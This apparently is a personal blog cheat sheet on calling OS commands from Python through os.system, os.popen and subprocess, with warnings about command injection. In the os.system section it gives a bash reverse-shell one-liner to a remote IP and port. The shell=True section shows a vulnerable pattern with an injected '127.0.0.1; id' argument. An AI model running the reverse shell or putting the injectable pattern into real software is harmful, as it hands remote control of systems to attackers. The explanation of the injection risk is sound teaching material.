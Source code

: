 ```yaml
---
layout: post
title: OS Commands with Python
date: 2023-09-01 14:46 -0400
categories: [Python]
tags: [cheat sheet, python, boilerplate, os, command injection]
---
```


First of all, I'm going to open this entire post by saying that this is for _prototyping only_. If you can use a python function or python module that has been built and tested properly rather than use python to call another binary or generally execute some sort of shell script code, you should _always_ do that. However, if you are just using python to get something done that you **don't intend to move into a production environment**, then read on I guess. I wanted to write this so I had a means of looking back on my work and know all the "gotchas" rather than have to look this up all the time.

Again, I really have to stress that calling binaries or shell commands from within a python script runs you the risk of potentially being vulnerable to a command injection attack. Sure there are proper ways to do it, but you may not want to run that risk, especially if you intend for others to use your code or to automate a task that has no (or little) sense of accountability.

Just food for thought.

## Anyway, OS Commands with Python

In the event that you need to execute some arbitrary OS command from your python script, there are several ways to go about doing it. You can use `os.system()`, `os.popen()`, `subprocess.run()`, and `subprocess.Popen()`, among others that aren't worth mentioning.

### os Module

The `os` module is useful if you have access to a python command environment and want to execute something without caring of the output, most likely because you are kicking back a reverse shell. This one is a particular favorite of mine:

#### os.system

```python
import os
c = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.20.30.40/9090 0>&1'"
os.system(c)
```

Or a little one liner:

```terminal
$ python -c "import os;os.system('/bin/bash -c \"/bin/bash -i >& /dev/tcp/10.20.30.40/9090 0>&1\"')"
```

#### os.popen

This is similar to the `system` function, but instead of echoing the output to STDOUT of the calling shell, this will read the output as if it were a file handler (more specifically `os._wrap_close`, but it has access to an IO stream so `read()` will work with it), so you should treat it as such in python.

```python
import os

c = "ping -c 1 50.60.70.80"
out = os.popen(c)

print(out.read())
```

Also to be fancy:

```python
import os

with os.popen("ping -c 1 50.60.70.80") as o:
    out = o.read()

print(out)
```

## The Recommended Way: subprocess

I won't bother getting into some of the legacy methods, but as of this writing the "preferred" method is to use `subprocess.run()`.

```python
import subprocess

# Note it's better to separate arguments into separate objects. This is the lazy way:
cmd = "ping -c 1 50.60.70.80".split(" ")

# But this is probably better in case you have files with spaces in their names or something:
cmd = ["ping", "-c", "1", "50.60.70.80"]

out = subprocess.run(cmd, capture_output=True)

print(out.stdout.decode("utf-8"))
```
> Note, adding `capture_output=True` will suppress output from being displayed the instan that `subprocess.run()` is executed. Instead, you can access STDOUT and STDERR from the new object created in the `out` variable.
{: .prompt-info}

### shell=True

If you specify `shell=True`, `subprocess.run()` will execute the code from inside of a new shell, and shell functions and methods will be availble to the command, such as pipes and output redirection. Unfortunately this comes with an even greater risk, as you can pass a full string to this command and it will simply hand it off to bash (or whatever shell you have configured) and it will execute from within the context of a shell. This makes the command _a lot more command-injectable!_ Especially if you are creating a string to pass to this function by way of the result of user input. Take the code:

```python
import subprocess
import sys

ip = sys.argv[1]
cmd = f"ping -c 1 {ip}"

out = subprocess.run(cmd, shell=True)

print(out.stdout.decode("utf-8"))
```

By providing `"127.0.0.1; id"` as the `sys.argv[1]` argument, you can execute whatever you want after the `;`. If you choose the default and set `shell=False`, then not only will it require that all commands and arguments be individual items in a list, but it will not honor things like a semicolon, double ampersand, or even sub-shell commands (like `$(id)`) to execute. It will throw an error that the name or service is not known.

### "Proper" Way of Handling Errors

This is some boilerplate code for a function that will execute the `cat` command and display a file if it exists. If it doesn't exist, it will throw an error. This may not be the most elegant, but it will get the job done. Also I'm sure some of the more prolific python devs out there will probably argue there is a better way of handling this, but this will get the job done:

```python
import subprocess

def os_read_file(thisFile: str) -> str: 
    cmd = ["/bin/cat", thisFile]
    out = subprocess.run(cmd, capture_output=True)

    if out.returncode > 0:
        raise Exception(out.stderr.decode("utf-8"))
    
    return out.stdout.decode("utf-8")


if __name__ == "__main__":
    try:
        print(os_read_file("/etc/does/not/exist"))
    except Exception as e:
        print(e)
```